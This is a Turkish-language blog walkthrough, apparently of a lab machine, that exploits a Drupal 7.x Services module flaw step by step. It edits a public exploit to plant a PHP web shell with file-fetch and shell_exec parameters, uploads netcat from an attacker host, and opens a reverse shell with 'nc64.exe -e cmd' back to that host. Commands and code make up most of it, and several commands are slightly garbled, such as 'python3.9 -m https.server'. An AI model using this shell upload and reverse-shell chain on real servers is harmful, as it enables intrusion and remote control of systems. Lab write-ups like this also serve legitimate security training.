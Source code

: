 ```yaml
---
layout: post
title: Drupal 7.x Module Services Remote Shell Upload
date: 2022-02-23 21:17
author: theguler
comments: true
categories: [Hacking - Security]
---
```

<!-- wp:heading -->
<h2 id="exploiting-zaafiyeti-test-edelim">Exploiting – Zaafiyeti test edelim.</h2>
<!-- /wp:heading -->

<!-- wp:paragraph -->
<p>İlk olarak Drupal sürümünü belirleyelim.&nbsp;Bunun için tarayıcıdan CHANGELOG.txt dosyasına erişebiliriz, bu hazır bir Drupal şablonudur.</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li><a href="https://10.10.10.9/CHANGELOG.txt">https://10.10.10.9/CHANGELOG.txt</a></li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:image {"id":4579} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-150.png" alt="" class="wp-image-4579" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Not: Drupal 7.54 sürümü olduğunu bize söylüyor.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>2. Bir sürümle ilişkili Zaafiyetler'i bulmak için searchsploit‘i kullanabiliriz.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">searchsploit drupal 7</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4580} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-151.png" alt="" class="wp-image-4580" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>3. Şimdi bu betiği<strong> /home/vry4n/Desktop </strong>dizinimize indirelim.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">searchsploit -m php/webapps/41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4581} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-152.png" alt="" class="wp-image-4581" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>4. Önce kodu değiştireceğiz, değiştirmemiz gereken kısmı vurguladım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">vi 41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4582,"width":608,"height":598} -->
<figure class="wp-block-image is-resized"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-153.png" alt="" class="wp-image-4582" width="608" height="598" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>5. Önce tarayıcımzı açarak $endpoint_path’in var olduğunu görelim.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">https://10.10.10.9/rest_endpoint
404 Bulunamadı</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4583} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-154.png" alt="" class="wp-image-4583" /></figure>
<!-- /wp:image -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">https://10.10.10.9/rest
20OK (found)</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4584} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-155.png" alt="" class="wp-image-4584" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>6. Bulduk.. Simdi Aşağıdaki gibi düzenleyelim.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">$url = ‘https://10.10.10.9’;

$endpoint_path = ‘/rest’;

$endpoint = ‘rest_endpoint’;

$file = [

&nbsp; &nbsp; ‘filename’ =&gt; ‘test.php’,

&nbsp; &nbsp; ‘data’ =&gt; ‘&lt;?php echo “Vry4n was here!!”; ?&gt;’

];</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4585} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-156.png" alt="" class="wp-image-4585" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>7. php-curl kurmamız gerekebilir.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">sudo apt-get install php-curl</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4586} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-157.png" alt="" class="wp-image-4586" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><strong>php-curl </strong>yüklemeden önce aldığımız HATA</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4587} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-158.png" alt="" class="wp-image-4587" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Komut dosyasını yürütelim.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">php 41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4588} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-159.png" alt="" class="wp-image-4588" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>9. Kod başarıyla yürütüldü ve bize&nbsp;<a href="https://10.10.10.9/test.php">https://10.10.10.9/test.php</a>&nbsp;adresini ziyaret etmemizi söylüyor.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">https://10.10.10.9/test.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4589} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-160.png" alt="" class="wp-image-4589" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>10. Dosyayı oluşturduk ve uzak Drupal sunucusunda çalıştırdık.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>11. Şimdi yeni dosyalar yükleyebilen ve komutları çalıştırabilen bir dosya oluşturacağız.&nbsp;test.php betiğimize aşağıdaki kodu ekleyeceğiz.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">$phpCode = &lt;&lt;&lt;‘EOD’

&lt;?php

&nbsp; &nbsp; if (isset($_REQUEST[‘fupload’])) {

&nbsp; &nbsp; &nbsp; &nbsp; file_put_contents($_REQUEST[‘fupload’], file_get_contents(“https://10.10.14.12:8888/” . $_REQUEST[‘fupload’]));

&nbsp; &nbsp; };

&nbsp; &nbsp; if (isset($_REQUEST[‘fexec’])) {

&nbsp; &nbsp; &nbsp; &nbsp; echo “&lt;pre&gt;” . shell_exec($_REQUEST[‘fexec’]) . “&lt;/pre&gt;”;

&nbsp; &nbsp; };

?&gt;

EOD;

$file = [

‘filename’ =&gt; ‘vry4n.php’,

‘data’ =&gt; $phpCode

];</pre>
<!-- /wp:preformatted -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><strong>vi 41564.php</strong></pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4590} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-161.png" alt="" class="wp-image-4590" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>12. Şimdi yeni dosyayı yüklemek için betiği tekrar çalıştıralım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">php 41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4591} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-162.png" alt="" class="wp-image-4591" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>13. Bu noktada vry4n.php dosyası yüklendi, 2 değişken kullanabiliriz&nbsp;<strong>fupload</strong>&nbsp;&amp;&nbsp;<strong>fexec</strong>&nbsp;.&nbsp;Temel komutları test etmek&nbsp;için ilk&nbsp;<strong>fexec’i</strong>&nbsp;kullanacağız.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">https://10.10.10.9/vry4n.php?fexec=dir</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4592} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-163.png" alt="" class="wp-image-4592" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>14. Artık komutları çalıştırabileceğimize göre,&nbsp;<strong>fupload</strong>&nbsp;işlevselliğini&nbsp;test edebiliriz&nbsp;.&nbsp;Bir resim yükleyeceğiz.&nbsp;Öncelikle bir web sunucusu başlatmamız ve script'te yazdığımız ayarların aynısını kullanmamız gerekiyor.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">python3.9 -m https.server 8888</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4593} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-164.png" alt="" class="wp-image-4593" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>15. Şimdi tarayıcıya gitmemiz gerekiyor,&nbsp;<strong>fupload</strong>&nbsp;değişkenini&nbsp;kullanacağız.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">https://10.10.10.9/vry4n.php?fupload=vk9sec.jpg

https:// 10.10.10.9/vk9sec.jpg</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4594} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-165.png" alt="" class="wp-image-4594" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>16. Artık herhangi bir talimat yürütmeden önce sistem hakkında bilgi toplayabiliriz.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">https://10.10.10.9/vry4n.php?fexec=systeminfo</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4595} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-166.png" alt="" class="wp-image-4595" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Not: Görüldüğü üzere Yamasız bir x64 bit sistemimiz var, Microsoft Windows Server 2008 R2 Datacenter</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>17. Şimdi&nbsp;<a href="https://eternallybored.org/misc/netcat/">https://eternallybored.org/misc/netcat/ adresinden</a>&nbsp;Windows için bir x64 netcat indireceğiz.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><a href="https://eternallybored.org/misc/netcat/"></a></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><strong>#netcat-win32-1.11.zip dosyasını açın.</strong>

cd netcat-1.11 &amp;&amp; ls

python3.9 -m https.sunucu 8888</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4596} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-167.png" alt="" class="wp-image-4596" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>18. Şimdi local bir dinleyici başlatalım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">nc -lvp 7777</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4597} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-168.png" alt="" class="wp-image-4597" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>19. Tarayıcıdan&nbsp;, yürütmek için&nbsp;netcat &amp;&nbsp;<strong>fexec</strong>&nbsp;yüklemek&nbsp;için&nbsp;<strong>fupload</strong>&nbsp;değişkenini kullanalım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">https://10.10.10.9/vry4n.php?fupload=nc64.exe&amp;fexec=nc64.exe -e cmd 10.10.14.12 7777</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>20. nc64.exe dosyasını indirmek için web sunucumuza 200 OK diyoruz.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4598} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-169.png" alt="" class="wp-image-4598" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>21. Dinleyiciyi kontrol ederken, şimdi yürütmeden sonra bir shell görmeliyiz.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4599} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-170.png" alt="" class="wp-image-4599" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><strong>Çözüm nedir – Quick solution</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Acilen Drupal sürümünü yükseltin. – Upgrade Drupal urgently</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>ilgili link:&nbsp;<a href="https://www.exploit-db.com/exploits/41564">https://www.exploit-db.com/exploits/41564</a></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><strong>Saygılarımla. – Best regards.</strong></p>
<!-- /wp:paragraph -->
